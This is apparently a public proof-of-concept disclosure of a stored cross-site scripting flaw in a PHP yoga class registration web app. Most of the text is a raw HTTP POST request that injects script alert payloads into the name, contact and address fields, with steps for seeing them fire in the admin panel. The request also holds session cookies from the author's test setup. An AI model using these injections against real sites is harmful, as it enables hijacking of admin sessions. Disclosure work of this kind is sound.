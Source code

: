 # Exploit Title: Yoga Classes Registration System - XSS

### Date: 
> April 14, 2023

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Yoga Class Registration System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html](https://www.sourcecodester.com/php/16097/yoga-class-registration-system-php-and-mysql-free-source-code.html))
### Version:
> v 1.0

### Proof of Concept:
Step 1. Go to a classes view and click on button register
Step 2. Full info with payload XSS into some field
\
![Example Image](https://drive.google.com/uc?id=1oJmlpkRQfwT0yD8n8NozI_L5Y7cv4Zwc)


Param: address is is the parameter that creates the vulnerability

```
POST /php-ycrs/classes/Master.php?f=save_registration HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------214398526911988890724243021391
Content-Length: 1117
Origin: http://localhost
Connection: close
Referer: http://localhost/php-ycrs/?p=yclasses/registration&cid=2
Cookie: eid=1; remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; table-page-size=50; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; PHPSESSID=e67hpqdmcqi2k65669nv8cagm3
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------214398526911988890724243021391
Content-Disposition: form-data; name="id"


-----------------------------214398526911988890724243021391
Content-Disposition: form-data; name="class_id"

2
-----------------------------214398526911988890724243021391
Content-Disposition: form-data; name="fullname"

Tuan"><script>alert('THT1997')</script>
-----------------------------214398526911988890724243021391
Content-Disposition: form-data; name="email"

huutuan@email.com
-----------------------------214398526911988890724243021391
Content-Disposition: form-data; name="dob"

1997-12-10
-----------------------------214398526911988890724243021391
Content-Disposition: form-data; name="sex"

Male
-----------------------------214398526911988890724243021391
Content-Disposition: form-data; name="contact"

adminTuan"><script>alert('THT1997-2')</script>
-----------------------------214398526911988890724243021391
Content-Disposition: form-data; name="address"

adminTuan"><script>alert('THT1997-3')</script>
-----------------------------214398526911988890724243021391--

```

Step 3. Login to admin panel and view List of Registration Requests

Step 4. Click view detail register from Action button

Step 5. Alert XSS was show
\
![Example Image](https://drive.google.com/uc?id=1jUpq95JHtmCR3JGgA5UNucLB1-l5Dfwc)


Video POC:
[PoC Here](https://drive.google.com/file/d/1yQqza7Zs6yM_qt2KTOfekNgl94dnQ0B3/view?usp=sharing)

